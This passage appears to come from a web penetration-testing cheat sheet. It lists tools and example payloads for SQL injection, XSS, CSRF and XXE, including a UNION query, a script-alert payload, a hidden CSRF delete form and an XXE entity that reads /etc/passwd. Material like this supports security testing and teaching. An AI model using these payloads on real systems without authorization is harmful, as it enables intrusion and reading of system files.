 - **Tools:**
  - SQLMap, sqlbftools, MySqloit

- **Example Payloads:**
  ```sql
  SELECT id, name FROM users WHERE id=1 UNION SELECT 1, version() limit 1, 1
  ```

### Cross-Site Scripting (XSS)

- **Types:**
  - Reflected
  - Stored
  - DOM-Based

- **Techniques:**
  - Script Injection
  - HTML Attribute Manipulation
  - Using Encoded Payloads

- **Tools:**
  - Burp Suite, OWASP ZAP, BeEF

- **Example Payload:**
  ```html
  <script>alert('XSS')</script>
  ```

### Cross-Site Request Forgery (CSRF)

- **Testing Steps:**
  - Identify vulnerable forms and actions.
  - Craft malicious requests that execute unintended actions.
  - Verify if tokens or other protection mechanisms are in place.

- **Example Attack:**
  ```html
  <form action="https://target.com/delete" method="POST">
    <input type="hidden" name="rule" value="*">
    <input type="submit" value="Attack">
  </form>
  ```

### XML Injection and XXE

- **Testing Objectives:**
  - Identify injection points in XML inputs.
  - Manipulate XML structure to execute external entities.
  - Assess impact of malformed XML.

- **Example Payload:**
  ```xml
  <!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
  <foo>&xxe;</foo>
  ```

